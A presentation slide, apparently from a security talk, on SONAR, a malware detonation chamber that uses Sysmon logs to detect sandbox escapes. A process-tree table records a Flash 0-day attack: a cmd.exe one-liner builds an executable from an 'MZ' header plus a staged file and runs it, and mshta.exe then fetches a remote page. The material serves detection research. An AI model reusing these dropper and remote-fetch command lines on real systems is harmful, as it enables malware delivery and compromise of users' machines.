

# SONAR
Detonation chamber for malware, O365 attachment validation, IE 0-day detection
Sysmon logs detect malware escape from Windows, IE and Office sandboxes
Sysmon log analysis can lead researchers to escape vulnerability
Flash 0-day detected in December:
| Image | CommandLine | ParentImage | ParentImage CommandLine |
| --- | --- | --- | --- |
| C:\Program Files\Internet Explorer\iexplore.exe | C:\Program Files\Internet Explorer\iexplore.exe SCODEF:512 CREDAT:267521 /prefetch:2 | C:\Program Files\Internet Explorer\iexplore.exe | C:\Program Files\Internet Explorer\iexplore.exe http://[REDACTED].com/Infected.swf |
| C:\Windows\System32\cmd.exe | cmd /c echo|set/p="MZ">"c:\users\user\appdata\local\temp\low\execb.exe"&type "c:\users\user\appdata\local\temp\low\S">>"c:\users\user\appdata\local\temp\low\execb.exe"&"c:\users\user\appdata\local\temp\low\execb.exe" | C:\Program Files\Internet Explorer\iexplore.exe | C:\Program Files\Internet Explorer\iexplore.exe SCODEF:512 CREDAT:267521 /prefetch:2 |
| C:\Windows\System32\cmd.exe | C:\Windows\system32\cmd.exe /S /D /c" set/p="MZ" 1>"c:\users\user\appdata\local\temp\low\execb.exe"" | C:\Windows\System32\cmd.exe | cmd /c echo|set/p="MZ">"c:\users\user\appdata\local\temp\low\execb.exe"&type "c:\users\user\appdata\local\temp\low\S">>"c:\users\user\appdata\local\temp\low\execb.exe"&"c:\users\user\appdata\local\temp\low\execb.exe" |
| C:\Users\User\AppData\Local\Temp\Low\execb.exe | "c:\users\user\appdata\local\temp\low\execb.exe" | C:\Windows\System32\cmd.exe | C:\Windows\system32\cmd.exe /S /D /c" set/p="MZ" 1>"c:\users\user\appdata\local\temp\low\execb.exe"" |
| C:\Windows\System32\mshta.exe | C:\Windows\system32\mshta.exe "http://[REDACTED].com/Page.aspx" | c:\users\user\appdata\local\temp\low\execb.exe | "c:\users\user\appdata\local\temp\low\execb.exe" |